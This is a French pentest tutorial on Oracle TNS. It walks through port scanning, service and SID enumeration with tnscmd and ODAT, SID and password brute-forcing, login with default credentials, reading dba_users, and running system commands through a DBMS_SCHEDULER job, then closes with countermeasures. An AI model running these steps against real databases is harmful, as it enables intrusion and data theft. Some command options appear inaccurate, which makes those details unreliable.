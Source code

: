 # Oracle TNS

### **Oracle TNS - Guide Complet  avec Commandes Fondamentales**

***

⚠️ **Avertissement :** Ce contenu est strictement destiné à un usage éducatif et éthique dans le domaine de la cybersécurité. Toute utilisation illégale ou malveillante est interdite et engage la seule responsabilité de l’utilisateur.

***

### **Introduction**

Le protocole **TNS (Transparent Network Substrate)** est utilisé par les bases de données Oracle pour la communication entre les clients et les serveurs. Ce protocole peut être mal configuré, rendant les bases vulnérables à des attaques comme la falsification, l’énumération ou l’exploitation directe. Ce guide explore les techniques pour interagir avec Oracle via TNS, effectuer des tests de sécurité, et identifier des vulnérabilités.

***

### **🚀 Étape 1 : Préparer l'Environnement**

**1.1 Identifier le Port TNS**

Par défaut, le service Oracle TNS écoute sur le port **1521** (TCP). Pour détecter les services TNS actifs, utilisez **Nmap** :

```bash
nmap -p 1521 -sV <target>
```

**Exemple de sortie :**

```arduino
1521/tcp open  oracle-tns  Oracle Database 19c
```

**Explications :**

* `1521` : Port standard pour Oracle TNS.
* `oracle-tns` : Service TNS détecté.

**1.2 Pré-requis**

* Un système Linux avec Python et les outils associés (comme **tnscmd** ou **ODAT**).
* Les permissions root pour exécuter certaines commandes réseau.

***

### **🛠️ Étape 2 : Énumération avec Oracle TNS**

**2.1 Utiliser tnscmd (Oracle TNS Commands)**

**tnscmd** est un outil spécialisé pour interroger les services TNS. Il est utile pour énumérer les services, tester la configuration, et découvrir des informations sur la base.

1.  **Installer tnscmd** : Téléchargez **tnscmd** depuis le dépôt GitHub :

    ```bash
    git clone https://github.com/quentinhardy/tnscmd.git
    cd tnscmd
    ```
2.  **Découvrir les Services Disponibles** : Pour énumérer les services disponibles sur un serveur Oracle :

    ```bash
    python3 tnscmd.py --host <target> --port 1521 --raw
    ```

    **Exemple** :

    ```bash
    python3 tnscmd.py --host 192.168.1.10 --port 1521 --raw
    ```

    **Sortie attendue** :

    ```kotlin
    Service "XE" has 1 instance(s).
      Instance "xe", status READY, has 1 handler(s) for this service...
    ```
3.  **Tester une Injection TNS** : Certaines configurations permettent des attaques d’injection TNS :

    ```bash
    python3 tnscmd.py --host <target> --port 1521 --test-injection
    ```

***

**2.2 Utiliser ODAT (Oracle Database Attacking Tool)**

ODAT est un outil plus complet pour interagir avec les bases Oracle via TNS.

1.  **Installer ODAT** : Téléchargez et installez ODAT :

    ```bash
    git clone https://github.com/quentinhardy/odat.git
    cd odat
    pip install -r requirements.txt
    ```
2.  **Lister les Services Oracle** : Pour découvrir les services Oracle :

    ```bash
    python3 odat.py tnscmd -s <target> -p 1521 --sid-list
    ```

    **Exemple** :

    ```bash
    python3 odat.py tnscmd -s 192.168.1.10 -p 1521 --sid-list
    ```

***

### **🔍 Étape 3 : Accès à la Base Oracle**

**3.1 Brute-Force des SIDs (System Identifiers)**

Les bases Oracle sont identifiées par des **SIDs**. Si le SID n’est pas connu, utilisez ODAT pour brute-forcer :

```bash
python3 odat.py sidguesser -s <target> -p 1521
```

**Exemple** :

```bash
python3 odat.py sidguesser -s 192.168.1.10 -p 1521
```

**3.2 Brute-Force des Comptes**

Une fois le SID identifié, brute-forcez les identifiants :

```bash
python3 odat.py passwordguesser -s <target> -p 1521 -d <SID>
```

**Exemple** :

```bash
python3 odat.py passwordguesser -s 192.168.1.10 -p 1521 -d XE
```

***

**3.3 Connexion à la Base avec SQLPlus**

SQLPlus est le client officiel pour interagir avec une base Oracle :

```bash
sqlplus <username>/<password>@<host>:1521/<SID>
```

**Exemple** :

```bash
sqlplus scott/tiger@192.168.1.10:1521/XE
```

***

### **🛠️ Étape 4 : Exploitation de la Base Oracle**

**4.1 Énumération des Tables**

Après connexion, affichez les tables disponibles :

```sql
SELECT table_name FROM all_tables;
```

***

**4.2 Lecture des Données**

Pour lire les données sensibles (par exemple, les utilisateurs et les mots de passe) :

```sql
SELECT * FROM dba_users;
```

***

**4.3 Exécution de Commandes Système**

Si vous disposez de permissions suffisantes, utilisez **DBMS\_SCHEDULER** pour exécuter des commandes système :

1.  Créez une tâche programmée :

    ```sql
    BEGIN
       DBMS_SCHEDULER.CREATE_JOB(
          job_name => 'shell_command',
          job_type => 'EXECUTABLE',
          job_action => '/bin/bash',
          enabled => TRUE);
    END;
    /
    ```
2.  Activez la tâche :

    ```sql
    BEGIN
       DBMS_SCHEDULER.RUN_JOB('shell_command');
    END;
    /
    ```

***

### **🔒 Étape 5 : Contre-Mesures et Sécurisation**

**5.1 Restreindre l'Accès TNS**

* Configurez un pare-feu pour restreindre l'accès au port **1521** uniquement aux IP autorisées.

**5.2 Désactiver les SIDs par Défaut**

* Modifiez la configuration Oracle pour éviter l'exposition des SIDs par défaut comme **XE** ou **ORCL**.

**5.3 Activer l’Audit TNS**

* Surveillez les connexions et les requêtes suspectes via les outils d’audit Oracle.

**5.4 Utiliser des Identifiants Forts**

* Remplacez les mots de passe par défaut comme `scott/tiger` par des valeurs robustes.

***

### **Résumé des Commandes Clés**

| Commande/outil                            | Description                               |
| ----------------------------------------- | ----------------------------------------- |
| `nmap -p 1521 -sV <target>`               | Scanner le port 1521 pour détecter TNS.   |
| `python3 tnscmd.py --host <target> --raw` | Énumérer les services Oracle via TNS.     |
| `python3 odat.py sidguesser ...`          | Brute-force des SIDs Oracle.              |
| `sqlplus <username>/<password>@...`       | Connexion à une base Oracle avec SQLPlus. |
| `SELECT * FROM dba_users;`                | Lire les utilisateurs de la base Oracle.  |

***

#### **Conclusion**

Ce guide fournit un cadre complet pour énumérer et interagir avec Oracle TNS dans le cadre d’un test de sécurité. Les étapes décrivent l’identification des services, l’exploitation des vulnérabilités, et les bonnes pratiques pour sécuriser les bases Oracle. Respectez toujours les règles légales et éthiques lors de l’utilisation de ces techniques.

***

**Liens utiles :**

* [Mentions légales](https://dika-1.gitbook.io/road-to-hacker/mentions-legales)
* [Politique de confidentialité](https://dika-1.gitbook.io/road-to-hacker/politique-de-confidentialite)
* [Contactez-nous](mailto:dika-road-to-hacker@protonmail.com)
